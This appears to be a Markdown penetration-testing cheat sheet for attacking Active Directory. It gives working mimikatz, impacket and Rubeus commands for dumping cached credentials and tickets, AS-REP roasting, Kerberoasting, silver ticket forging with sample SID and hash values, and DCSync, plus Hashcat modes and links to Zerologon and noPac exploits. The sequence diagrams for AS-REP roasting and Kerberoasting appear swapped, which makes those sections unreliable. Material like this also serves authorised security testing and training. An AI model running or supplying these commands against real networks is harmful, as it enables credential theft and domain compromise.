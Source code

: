 # ⚔️ AD Exploitation

## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## AS-REP Roasting

```mermaid
sequenceDiagram
    participant Attacker
    participant Victim User
    participant Domain Controller (KDC)
    participant Service Account

    Attacker->>Victim User: Compromises user account
    Victim User->>Domain Controller (KDC): Requests TGT (AS-REQ)
    Domain Controller (KDC)-->>Victim User: Returns TGT (AS-REP)
    Victim User->>Domain Controller (KDC): Requests Service Ticket (TGS-REQ)
    Domain Controller (KDC)-->>Victim User: Returns Service Ticket (TGS-REP)
    Victim User->>Service Account: Accesses service with Service Ticket
    Attacker->>Victim User: Extracts Service Ticket
    Attacker->>Attacker: Cracks Service Ticket offline
```

> Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers -dc-ip <ip> -request <domain>/<user>:<password>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

```mermaid
sequenceDiagram
    participant Attacker
    participant Domain Controller (KDC)
    participant Target User (No Preauth)

    Attacker->>Domain Controller (KDC): Sends AS-REQ for Target User (No Preauth)
    Domain Controller (KDC)-->>Attacker: Returns AS-REP with encrypted TGT
    Attacker->>Attacker: Extracts and cracks AS-REP offline
```

!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /nowrap
```

## Silver Ticket

```mermaid
sequenceDiagram
    participant Attacker
    participant Target Service
    participant Domain Controller (KDC)

    Attacker->>Attacker: Extracts NTLM hash of Service Account
    Attacker->>Attacker: Creates forged TGS (Silver Ticket)
    Attacker->>Target Service: Sends forged TGS to access service
    Target Service-->>Attacker: Grants unauthorized access
```

> Three pieces of info are needed:
> - SPN password hash
> - Domain SID
> - Target SPN

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>

# linux
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)